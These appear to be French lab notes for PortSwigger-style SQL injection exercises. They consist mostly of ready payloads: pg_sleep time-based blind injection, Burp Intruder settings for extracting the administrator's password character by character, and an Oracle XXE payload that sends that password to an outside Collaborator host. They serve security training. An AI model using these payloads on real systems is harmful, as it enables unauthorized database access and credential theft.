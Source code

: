     TrackingId=x'||pg_sleep(10)--
    
### Blind SQL injection with time delays and information retrieval


Tests initiaux : 

    TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
    
    TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
    
    TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Déduction de la longueur du mot de passe de l'administrateur : 

    TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
    [...] 
    TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
    
Utilisation d'Intruder pour déduire chaque caractère du 1 au 20 : 

    TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
    [...]
    TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
    
Attention à bien remplir les payloads : **un seul caractère alphanumérique ou éventuellement un symbole**

Attention à bien envoyer les requêtes dans un seul thread pour ne pas fausser le temps obtenu : 
**"Resource pool" => "Maximum concurrent requests" => 1**

Attention à bien afficher le timer pour la réponse obtenue : 
**"Columns" => "Response received"**


### Blind SQL injection with out-of-band interaction
   
Injecter le payload suivant dans le paramètre TrackingId : 

    TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//gcw5p5877y8iiifjnkat2gp28tek2aqz.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

Observer la requête qui arrive dans Collaborator.


### Blind SQL injection with out-of-band data exfiltration

    TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.gcw5p5877y8iiifjnkat2gp28tek2aqz.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

### SQL injection with filter bypass via XML encoding
